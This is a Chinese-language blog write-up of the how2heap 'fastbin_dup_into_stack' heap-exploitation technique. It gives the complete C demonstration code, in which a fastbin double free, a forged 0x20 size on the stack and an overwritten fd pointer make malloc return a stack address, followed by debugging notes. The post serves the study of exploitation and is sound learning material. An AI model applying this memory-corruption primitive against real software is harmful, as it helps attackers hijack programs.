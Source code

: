 ```yaml
---
title: fastbin_dup_into_stack
date: 2020-08-12 14:19:09
updated: 2020-08-12 14:19:09
tags:
    - heap
    - pwn
    - fastbin_dup_into_stack
categories: 
	- 二进制安全
	- how2heap
use:
  - Valine
text: true
lazyload: true
count: true
---
```


# 源码

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    fprintf(stderr, "This file extends on fastbin_dup.c by tricking malloc into\n"
           "returning a pointer to a controlled location (in this case, the stack).\n");

    unsigned long long stack_var;

    fprintf(stderr, "The address we want malloc() to return is %p.\n", 8+(char *)&stack_var);

    fprintf(stderr, "Allocating 3 buffers.\n");
    int *a = malloc(8);
    int *b = malloc(8);
    int *c = malloc(8);

    fprintf(stderr, "1st malloc(8): %p\n", a);
    fprintf(stderr, "2nd malloc(8): %p\n", b);
    fprintf(stderr, "3rd malloc(8): %p\n", c);

    fprintf(stderr, "Freeing the first one...\n");
    free(a);

    fprintf(stderr, "If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);
    // free(a);

    fprintf(stderr, "So, instead, we'll free %p.\n", b);
    free(b);

    fprintf(stderr, "Now, we can free %p again, since it's not the head of the free list.\n", a);
    free(a);

    fprintf(stderr, "Now the free list has [ %p, %p, %p ]. "
        "We'll now carry out our attack by modifying data at %p.\n", a, b, a, a);
    unsigned long long *d = malloc(8);

    fprintf(stderr, "1st malloc(8): %p\n", d);
    fprintf(stderr, "2nd malloc(8): %p\n", malloc(8));
    fprintf(stderr, "Now the free list has [ %p ].\n", a);
    fprintf(stderr, "Now, we have access to %p while it remains at the head of the free list.\n"
        "so now we are writing a fake free size (in this case, 0x20) to the stack,\n"
        "so that malloc will think there is a free chunk there and agree to\n"
        "return a pointer to it.\n", a);
    stack_var = 0x20;

    fprintf(stderr, "Now, we overwrite the first 8 bytes of the data at %p to point right before the 0x20.\n", a);
    *d = (unsigned long long) (((char*)&stack_var) - sizeof(d));

    fprintf(stderr, "3rd malloc(8): %p, putting the stack address on the free list\n", malloc(8));
    fprintf(stderr, "4th malloc(8): %p\n", malloc(8));
}
```

# 运行结果

![image.png](https://i.loli.net/2020/11/17/joE9uIbgskQApXV.png)

# 分析&调试

前面的操作和fastbin_dup一样，之后

先malloc给了d，之后malloc（8）

之后freelist上还有a，和d指向的是同一块chunk

之后使用d修改chunk的fd指针指向栈上，那么再次malloc*2的时候就会malloc到栈上

调试：

malloc三次后：

![image.png](https://i.loli.net/2020/11/17/D26tuZAIzSoL817.png)

free三次后：

![image.png](https://i.loli.net/2020/11/17/2aFMSuhi7rWtw5Y.png)

malloc给d后，malloc(8)，之后声明了一个栈上变量为20：

![image.png](https://i.loli.net/2020/11/17/JPN3Qdugq5atYBK.png)

修改d的值为栈上地址后：

成功将栈链入fastbin

![image.png](https://i.loli.net/2020/11/17/Gl3ByUiALDEqMt9.png)

# 总结

- 为什么栈上变量是20？因为要伪造fastbin的chunk大小（会检查）